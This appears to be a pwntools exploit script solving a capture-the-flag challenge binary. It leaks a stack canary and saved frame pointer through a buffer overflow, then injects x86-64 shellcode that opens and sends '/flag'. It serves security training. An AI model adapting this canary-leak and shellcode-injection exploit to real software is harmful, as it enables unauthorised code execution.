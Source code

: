 ```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/toddlerone_level5.0'
elf = ELF(BINARY)
GDB_SCRIPT= '''
b challenge
c


'''

p = process(BINARY)
# p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
PAD_LENGTH = 72

header = b'REPEAT'
padding = b'A' * (PAD_LENGTH - len(header))

# Leak canary
buf_1 = header + padding + b'B'  # The LSB of the canary is always 0x00. Hence, we need to overwrite it in order to see the result. 
p.sendline(str(len(buf_1)))
p.send(buf_1)

while True:
    data = p.recvline()
    if buf_1 in data:
        start_index = data.find(buf_1) + len(buf_1) - 1  # -1 As we also take the fake "B" LSB
        canary = struct.unpack('<Q', data[start_index: start_index + 8])[0] & 0xffffffffffffff00
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Canary value:{hex(canary)}')
        break

canary_bytes = struct.pack('<Q', canary)

# Leak rbp
buf_2 = header + padding + b'B' * 0x18
p.sendline(str(len(buf_2)))
p.send(buf_2)

while True:
    data = p.recvline()
    if buf_2 in data:
        start_index = data.find(buf_2) + len(buf_2)
        print(f'Data is:{data} index:{start_index}')
        rbp_leak = data[start_index: start_index + 6] + b'\x00' * 2 # 6 instead of 8, as always the 2 MSBs are \x00
        assert(len(rbp_leak) == 8)
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@RBP value:{rbp_leak}')
        break

magic_bytes = struct.pack('<Q', 0x747bc57ca48fc14e) * int(PAD_LENGTH / 8)
shellcode = b"\x90" * 0x300 + b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x02\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x00\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\x89\xC6\x48\xC7\xC2\x00\x00\x00\x00\x49\xC7\xC2\xE8\x03\x00\x00\x48\xC7\xC0\x28\x00\x00\x00\x0F\x05\x48\xC7\xC0\x3C\x00\x00\x00\x0F\x05"
buf_3 = magic_bytes + canary_bytes + b'D' * 0x18 + rbp_leak + shellcode  # Overwrite RA with rbp addr for simplicity, overflow is large enough
p.sendline(str(len(buf_3)))
p.send(buf_3)

p.interactive()
```